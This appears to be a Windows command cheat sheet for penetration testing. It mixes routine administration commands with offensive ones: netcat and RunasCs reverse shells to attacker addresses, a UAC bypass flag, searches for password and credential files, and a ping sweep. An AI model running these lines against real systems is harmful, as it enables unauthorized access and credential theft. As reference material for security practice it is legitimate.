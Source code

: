 # Commands

## Short path to avoid spaces

This avoids troubles for some protocols/services. Six uppercase letters + \~ + number.

```
"PROGRA~1"
```

{% embed url="https://superuser.com/questions/529400/how-does-progra1-path-notation-work" %}

## General

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Go to C:\Folder quickly
cd \Fol*

# Look for hidden files
dir /A:H /s "c:\program files"
dir /a user.txt
dir *.bat /a /s
ls -force 
dir $PATH -force 
# check for files in home folders of users with names that could mean they hold passwords
dir /s C:\Users
# -----------------------------FIND/SEARCH/LOOK FOR FILES
cd C:\ && dir *.bat /a /s
dir /a /o /q # know owner of files/folders
dir /s flag2* # /s look in subsequent folders
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
# CREATE EMPTY/TEXT FILE
echo This is sample text > MyFile.txt

# Tree
tree /f .
tree /f /a

# Like grep lines after and before. Example:
netstat -anbo | Select-String -Pattern MyPattern -Context 3,3

# ZIP FILES (Windows 10 has tar command since 2018)
tar.exe acvf yourfile.zip yourfolder
powershell Compress-Archive D:\Build\FolderName D:\Build\FolderName.zip
powershell expand-archive D:\Build\FileName.zip D:\deployments\FileName

# Permissions - calcs
$ cacls $PATH /grant $USER:F
tasklist #imagine we want to kill process.exe
taskkill /im:process.exe /F #/F to force terminationStart-Process "shell-name.exe"


echo %USERNAME%
$env:UserName
#REDIRECT OUTPUT
2>NUL
#Redirect to a file and show output like tee
dir > a.txt & type a.txt
#COUNT LINES
cat file.txt | find /c /v ""

# Type fast a long path
Instead of "Documents and Settings" --> docume~1 (first 6 characters +  ~1)
# cmd and echo
cmd.exe /c echo "Hello World" 
# move, delete and copy files
move $FILE $DESTINATION
copy $FILE $DESTINATION
del $FILE

# Checksum and integrity
certutil -hashfile test.bin SHA1
# Ping sweep
C:\>for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && t echo 10.5.5.%i is up.
# Base64 encode
echo -n 'text' | base64 -w 0
```
{% endcode %}

## RunAs / Start Process As

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/antonioCoco/RunasCs
C:\ > runas /env /profile /user:WORKGROUP\$username "$COMMAND"
runas /env /profile /user:HOSTNAME\Administrator "C:\temp\nc.exe -e cmd.exe $LHOST 443" 

RunasCs.exe <username> <password> cmd -r 10.0.0.1:4444
RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
Invoke-RunasCs $user $pass whoami

# Requires interactive console
runas /user:userName cmd.exe
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```
{% endcode %}

## Reboot system

```powershell
# Simulation
Restart-Computer -WhatIf
# Real reboot
Restart-Computer
```

## &#x20;variables (Windows PATH)

By default **setx** sets the variable in the local environment (Under HKEY\_Current\_User Registry key). If you want to set the system variable (Under HKEY\_LOCAL\_MACHINE registry key), use the flag **/m**. Start the command prompt as administrator on Windows 10, right click on Start menu and select **Command Prompt(Admin)**.

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\>setx /m PATH "C:\myfolder;%PATH%"
# Fix PATH environmental variable
set PATH=c:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%
echo %path%
# PS
(Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" -Name "PATH").path
$Env:Path
```
{% endcode %}
